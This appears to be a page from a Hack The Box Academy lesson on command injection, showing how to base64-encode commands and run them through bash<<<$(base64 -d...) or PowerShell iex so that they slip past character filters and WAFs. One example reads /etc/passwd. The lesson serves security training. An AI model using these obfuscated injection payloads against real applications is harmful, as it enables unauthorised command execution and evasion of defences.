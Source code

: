 We can utilize various encoding tools, like `base64` (for b64 encoding) or `xxd` (for hex encoding). Let's take `base64` as an example. First, we'll encode the payload we want to execute (which includes filtered characters):
```
D3vil0per@htb[/htb]$ echo -n 'cat /etc/passwd | grep 33' | base64

Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==
```

Now we can create a command that will decode the encoded string in a sub-shell (`$()`), and then pass it to `bash` to be executed (i.e. `bash<<<`), as follows:
```
D3vil0per@htb[/htb]$ bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```
As we can see, the above command executes the command perfectly. We did not include any filtered characters and avoided encoded characters that may lead the command to fail to execute.

Tip: Note that we are using `<<<` to avoid using a pipe `|`, which is a filtered character.

Now we can use this command (once we replace the spaces) to execute the same command through command injection:
![cmdinj_filters_commands_6](https://academy.hackthebox.com/storage/modules/109/cmdinj_filters_commands_6.jpg)

Even if some commands were filtered, like `bash` or `base64`, we could bypass that filter with the techniques we discussed in the previous section (e.g., character insertion), or use other alternatives like `sh` for command execution and `openssl` for b64 decoding, or `xxd` for hex decoding.

We use the same technique with Windows as well. First, we need to base64 encode our string, as follows:
```
PS C:\htb> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))

dwBoAG8AYQBtAGkA
```

We may also achieve the same thing on Linux, but we would have to convert the string from `utf-8` to `utf-16` before we `base64` it, as follows:
```
D3vil0per@htb[/htb]$ echo -n whoami | iconv -f utf-8 -t utf-16le | base64

dwBoAG8AYQBtAGkA
```
Finally, we can decode the b64 string and execute it with a PowerShell sub-shell (`ies "$()"`), as follows:
```
PS C:\htb> iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"

21y4d
```
As we can see, we can get creative with Bash or PowerShell and create new bypassing and obfuscation methods that have not been used before, and hence are very likely to bypass filters and WAFs. Several tools can help us automatically obfuscate our commands, which we will discuss in the next section.
